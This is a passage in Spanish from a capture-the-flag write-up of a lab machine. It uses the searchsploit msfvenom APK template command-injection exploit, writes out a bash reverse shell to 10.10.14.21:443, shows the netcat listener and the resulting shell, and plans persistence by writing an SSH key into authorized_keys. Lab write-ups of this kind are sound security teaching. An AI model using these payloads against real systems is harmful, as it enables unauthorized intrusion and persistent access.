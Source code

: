 Encontramos un posible exploit con ejecución de comandos con la utilidad de **searchsploit**:

```bash
searchsploit msfvenom

 Exploit Title                                                               |  Path                   |
 Metasploit Framework 6.0.11 - msfvenom APK template command injection       | multiple/local/49491.py |
 Shellcodes: No Results
 Papers: No Results
```

Movemos el exploit a nuestro directorio y si cambiamos el nombre para identificarlo de mejor manera.

## Explotación

Ahora es cuando nos ponemos a jugar, abrimos el exploit y modificamos la variable **PAYLOAD** para inyectar nuestra propia reverse shell, en este caso vamos a utilizar la de bash:

```bash
# Change me
payload = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.21/443 0>&1'"
```

He modificado un poco el script para que el directorio donde genere el template sea el actual en el que trabajo, por defecto lo creará en **/tmp** con la función de python **mkdtemp**.

Ejecutamos el exploit descargado y nos generará un archivo APK malicioso con nombre "**evil.apk**", que será el que subiremos como template en la página, seleccionando en OS Android y dirección IP que queramos, ya que la revershe shell se encuentra en la variable **Payload** que hemos definido.

Ponemos **nc** a la escucha en el puerto indicando anteriormente en la variable de **Payload** y subimos el archivo.

Accedemos a la máquina como usuario **Kid.**

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.129.134.41] 40300
bash: cannot set terminal process group (906): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~/html$
```

Pasamos a enumerar directorios y archivos en la máquina cuando veo que tiene el archivo "**authorized\_keys**" con permisos de escritura, por lo que me dispongo a introducir mi llave pública para mantener acceso en caso de pérdida de reverse shell.
